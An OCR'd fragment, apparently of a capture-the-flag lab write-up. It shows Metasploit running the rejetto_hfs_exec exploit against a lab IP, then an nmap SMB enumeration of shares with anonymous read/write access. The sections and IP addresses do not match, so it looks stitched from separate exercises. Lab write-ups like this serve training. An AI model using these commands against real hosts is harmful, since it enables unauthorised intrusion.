 ```js
msf6 exploit(windows/http/rejetto_hfs_exec) > set rhosts 10.10.195.17
rhosts => 10.10.195.17
msf6 exploit(windows/http/rejetto_hfs_exec) > set rport 8080
rport => 8080
msf6 exploit(windows/http/rejetto_hfs_exec) > run
```

>RUN 

## Gain Access
# SMB Enumeration

>**nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.194.61 **

```js
Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.23.89\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 2
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.23.89\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.23.89\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>



```
We have 

```js
\\10.10.23.89\anonymous
```
## Try to connect with SMB via anonymous
